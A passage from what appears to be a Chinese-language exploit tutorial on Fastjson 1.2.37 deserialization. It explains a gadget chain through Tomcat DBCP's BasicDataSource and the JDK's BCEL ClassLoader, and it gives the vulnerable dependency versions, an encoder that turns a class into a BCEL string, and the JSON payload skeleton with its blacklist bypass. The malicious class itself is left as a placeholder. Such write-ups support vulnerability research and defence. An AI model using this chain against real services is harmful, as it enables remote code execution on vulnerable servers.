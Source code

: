 ```java
    "            }\n" +
    "        }\n" +
    "    }\n" +
    "}";
JSON.parse(payload);
```
这个Payload适用于1.2.37版本，并且需要导入Tomcat相关的包
```xml
<dependencies>
    <dependency>
        <groupId>com.alibaba</groupId>
        <artifactId>fastjson</artifactId>
        <version>1.2.37</version>
    </dependency>
    <dependency>
        <groupId>org.apache.tomcat</groupId>
        <artifactId>tomcat-dbcp</artifactId>
        <version>8.0.36</version>
    </dependency>
</dependencies>
```
生成`driverClassName`的工具如下
```java
import com.sun.org.apache.bcel.internal.util.ClassLoader;
import com.sun.org.apache.bcel.internal.classfile.JavaClass;
import com.sun.org.apache.bcel.internal.classfile.Utility;
import com.sun.org.apache.bcel.internal.Repository;

public class Test {
    public static void main(String[] args) throws Exception {
        JavaClass cls = Repository.lookupClass(Exp.class);
        String code = Utility.encode(cls.getBytes(), true);
        code = "$$BCEL$$" + code;
        new ClassLoader().loadClass(code).newInstance();
        System.out.println(code);
    }
}
```
BCEL的全名是Apache Commons BCEL，Apache Commons项目下的一个子项目，包含在JDK的原生库中。可以通过BCEL提供的两个类 Repository 和 Utility 来利用：Repository 用于将一个Java Class先转换成原生字节码，当然这里也可以直接使用javac命令来编译java文件生成字节码；Utility 用于将原生的字节码转换成BCEL格式的字节码。<br />生成的BCEL格式大概如下：
```
$$BCEL$$$l$8b$I$A$A$A$A$A$A$AmQ$......
```
将这种格式的字符串，作为“字节码”传入`new ClassLoader().loadClass(code).newInstance();`将会被实例化，当在Fastjson反序列化中构造出这种链，将会造成反序列化漏洞<br />回到Payload，开头一部分用于绕Fastjson黑白名单，没有什么特殊的意义，核心部分如下：
```json
"x" : {
    "name": {
        "@type" : "java.lang.Class",
        "val"   : "com.sun.org.apache.bcel.internal.util.ClassLoader"
    },
    "y": {
        "@type":"com.alibaba.fastjson.JSONObject",
        "c": {
            "@type":"org.apache.tomcat.dbcp.dbcp2.BasicDataSource",
            "driverClassLoader": {
                "@type" : "com.sun.org.apache.bcel.internal.util.ClassLoader"
            },
            "driverClassName":"!!!Payload!!!",
            "$ref": "$.x.y.c.connection"
        }
    }
}
```
